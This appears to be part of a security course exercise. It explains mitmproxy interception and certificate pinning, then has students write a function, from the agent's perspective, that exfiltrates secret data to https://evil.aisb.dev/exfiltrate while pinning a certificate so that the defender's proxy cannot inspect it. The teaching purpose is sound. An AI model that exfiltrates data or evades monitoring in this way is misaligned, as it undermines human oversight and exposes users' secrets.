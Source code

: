 2. **Compare with Wireshark**:
   - Start Wireshark and capture traffic
   - Filter for `tcp.port == 8080`
   - Notice that you can see traffic to the proxy, but the content is still encrypted
   - This shows that mitmproxy acts as a trusted intermediary

### Security Implications

We hope this exercise makes it obvious why you should never install custom CA certificates on your personal devices unless you trust the source to read and modify all your HTTPS traffic.
This is a powerful tool for security professionals, but it can also be abused by attackers to intercept sensitive data.



### Exercise 6: Certificate Pinning to Evade MITM Proxies
Let's switch to the agent's perspective once more and try to detect if we are being monitored by a proxy.

In the previous exercise, the defender could intercept your HTTPS traffic using mitmproxy with a self-signed certificate. This worked because your agent blindly trusted any certificate presented to it.

Certificate pinning is a security technique where the client validates that the server's certificate matches a known, trusted certificate. This prevents MITM attacks, even if the attacker has installed their own certificate on the system.

Certificate pinning involves:

1. **Pre-storing a trusted certificate**: The client has a copy of the expected certificate (or its root CA)
2. **Validating during connection**: When connecting, the client checks if the server's certificate chains to the pinned certificate
3. **Rejecting mismatches**: If the certificate doesn't match, the connection is refused

#### Exercise 6.1 - Implement make_evil_request_pinned

> **Difficulty**: 🔴🔴⚪⚪⚪
> **Importance**: 🔵🔵🔵🔵⚪
>
> You should spend up to ~10 minutes on this exercise.

Implement certificate pinning by validating against the ISRG Root X1 certificate (Let's Encrypt's root CA). You can find the certificate file by going to the certificates window in your browser when visiting `https://evil.aisb.dev`. We have provided the same in a file named `isrg-root-x1.pem` in this directory.


```python


def make_evil_request_pinned(secret_data: str) -> Optional[str]:
    """
    Send a GET request over HTTPS with certificate pinning to evil.aisb.dev.

    This function uses certificate pinning to ensure we're talking to the real
    evil.aisb.dev server, not a MITM proxy with a self-signed certificate.

    Args:
        secret_data: The secret information to exfiltrate

    Returns:
        The response text from the server, or None if the request fails
    """
    # TODO: Implement certificate pinning:
    #   1. Make a GET request to https://evil.aisb.dev/exfiltrate?data=secret_data
    #   2. Use verify='isrg-root-x1.pem' as a parameter to requests to pin the certificate
    #   4. Return the response text if successful, None otherwise
```
